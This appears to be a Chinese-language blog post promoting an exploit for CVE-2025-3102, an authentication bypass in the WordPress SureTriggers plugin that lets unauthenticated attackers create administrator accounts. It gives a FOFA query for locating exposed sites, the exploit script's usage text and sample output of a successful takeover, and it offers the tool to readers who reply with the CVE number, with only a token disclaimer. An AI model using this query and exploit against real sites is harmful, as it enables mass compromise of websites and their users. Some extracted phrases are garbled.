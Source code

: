 #  Wordpress SureTriggers插件漏洞（CVE-2025-3102）创建未经身份验证的管理用户   
原创 爱坤  爱坤sec   2025-04-18 15:24  
  
漏洞获取地址在文章末尾  
  
描述：  
  
CVE-2025-3102是一个严重的身份验证绕过漏洞，影响SureTriggers：All-in-One Automation PlatformWordPress 插件，该插件已主动安装在超过100,000 个网站上。由于漏洞的性质和部署规模，此漏洞会带来重大的安全风险  
WordPress 的 SureTriggers 插件容易受到身份验证绕过的攻击，允许未经身份验证的攻击者创建管理员帐户。这是由于函数内部缺少空值检查。secret_keyautheticate_user  
  
当安装并激活插件但未配置 API 密钥时，攻击者可以通过发送空标头来绕过身份验证，从而触发为经过身份验证的用户保留的作。st_authorization  
  
fofa语法  
```
body="/wp-content/plugins/suretriggers/"
```  
  
  
利用要求：  
- 带有**SureTriggers ≤ v1.0.78 的**  
WordPress 网站  
  
- 该插件必须是：  
- ✅ 安装  
  
- ✅ 激活  
  
- ❌ 未配置 API 密钥  
  
使用方法  
```
usage: CVE-2025-3102.py [-h] -u URL [-nmail NEWMAIL] [-nu NEWUSER] [-np NEWPASSWORD]

SureTriggers <= 1.0.78 - Authorization Bypass Exploit  
By: Nxploited | Khaled Alenazi

options:
  -h, --help              Show this help message and exit
  -u, --url URL           Target WordPress base URL
  -nmail, --newmail NEWMAIL       Email to register
  -nu, --newuser NEWUSER          Username to register
  -np, --newpassword NEWPASSWORD  Password for the new user
```  
  
输出实列  
```
[+] Detected plugin version: 1.0.78
[+] Vulnerable version detected. Proceeding...
[*] Exploiting the target in 3 seconds...
[+] Email generated: evil@example.com
[+] Username generated: eviluser
[+] Password generated: P@ssw0rd123!
[+] Exploit Successful!
[+] Login credentials: eviluser:P@ssw0rd123!
```  
  
免责声明  
#### 作者不对任何滥用此信息的行为负责。此概念证明应仅用于您拥有的系统或获得明确测试许可的系统。  
  
工具获取，后台回复【  
CVE-2025-3102  
】  
  
**更多精彩文章与工具分享 欢迎关注**  
  
****  
  

